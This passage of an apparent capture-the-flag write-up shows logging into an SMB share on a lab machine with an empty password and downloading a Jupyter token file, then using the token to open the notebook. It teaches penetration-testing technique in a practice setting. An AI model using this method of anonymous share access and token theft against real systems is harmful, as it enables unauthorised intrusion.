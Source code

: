 **Great!** It seems we we have read and write access to the ```datasci-team``` share.

Let's try to log in:

```bash
smbclient //10.10.63.26/datasci-team
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password: 
```

Since I don't have a password I simply tried to hit enter, and here we go:

```bash
Try "help" to get a list of possible commands.
smb: \> 
```

On the share, you'll find plenty of more or less interesting files about Weasels.

And a folder named ```misc```:

```bash
smb: \misc\> ls
  .                                  DA        0  Thu Aug 25 16:26:47 2022
  ..                                 DA        0  Thu Aug 25 16:26:47 2022
  jupyter-token.txt                   A       52  Thu Aug 25 16:26:47 2022

smb: \misc\> get jupyter-token.txt 
getting file \misc\jupyter-token.txt of size 52 as jupyter-token.txt (25.4 KiloBytes/sec) (average 25.4 KiloBytes/sec)
```

How convenient, a file named jupyter-token.txt. I wonder what's in it?

*Well, it's a token for Jupyter...*

### Step 2: Jupyter, again

With our acquired token we can now access the notebook.

![JupyterOverview](images/JupyterOverview.png)
